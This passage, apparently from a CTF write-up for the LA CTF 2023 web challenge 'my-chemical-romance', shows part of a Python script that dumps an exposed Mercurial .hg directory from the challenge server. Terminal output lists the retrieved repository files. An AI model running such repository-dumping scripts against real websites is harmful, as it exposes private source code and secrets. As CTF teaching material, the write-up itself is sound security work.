 ```py
        '.hg/store/00manifest.i',
        '.hg/store/fncache',
        '.hg/store/phaseroots',
        '.hg/store/undo',
        '.hg/store/undo.phaseroots',
        '.hg/store/requires',
        '.hg/undo.bookmarks',
        '.hg/undo.branch',
        '.hg/undo.desc',
        '.hg/undo.dirstate',
        '.hgignore'
    ]

    URL = 'https://my-chemical-romance.lac.tf/'

    if not os.path.exists('.hg'):
        os.makedirs('.hg')
        os.makedirs('.hg/cache')
        os.makedirs('.hg/store')
        os.makedirs('.hg/wcache')

    for file in listFiles:
        thread = Thread(target=download, args=(URL, file))
        thread.start()
        sleep(0.1)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:50:28(HKT)]
└> python3 dumper.py
[+] Found valid file: .hg/00changelog.i
[+] Found valid file: .hg/cache/branch2-served
[+] Found valid file: .hg/dirstate
[+] Found valid file: .hg/last-message.txt
[+] Found valid file: .hg/requires
[+] Found valid file: .hg/store/00changelog.i
[+] Found valid file: .hg/store/00manifest.i
[+] Found valid file: .hg/store/fncache
[+] Found valid file: .hg/store/phaseroots
[+] Found valid file: .hg/store/undo
[+] Found valid file: .hg/store/undo.phaseroots
[+] Found valid file: .hg/store/requires
[+] Found valid file: .hg/undo.bookmarks
[+] Found valid file: .hg/undo.branch
[+] Found valid file: .hg/undo.desc
[+] Found valid file: .hg/undo.dirstate
┌[siunam♥earth]-(~/ctf/LA-CTF-2023/Web/my-chemical-romance)-[2023.02.12|17:50:54(HKT)]
└> ls -lah .hg/
total 48K
drwxr-xr-x 5 siunam nam 4.0K Feb 12 17:46 .
drwxr-xr-x 3 siunam nam 4.0K Feb 12 17:45 ..
-rw-r--r-- 1 siunam nam   59 Feb 12 17:50 00changelog.i
drwxr-xr-x 2 siunam nam 4.0K Feb 12 17:45 cache
-rw-r--r-- 1 siunam nam  302 Feb 12 17:50 dirstate
-rw-r--r-- 1 siunam nam   44 Feb 12 17:50 last-message.txt
-rw-r--r-- 1 siunam nam   11 Feb 12 17:50 requires
drwxr-xr-x 2 siunam nam 4.0K Feb 12 17:47 store
-rw-r--r-- 1 siunam nam    0 Feb 12 17:50 undo.bookmarks
-rw-r--r-- 1 siunam nam    7 Feb 12 17:50 undo.branch
-rw-r--r-- 1 siunam nam    9 Feb 12 17:50 undo.desc
-rw-r--r-- 1 siunam nam  305 Feb 12 17:50 undo.dirstate
```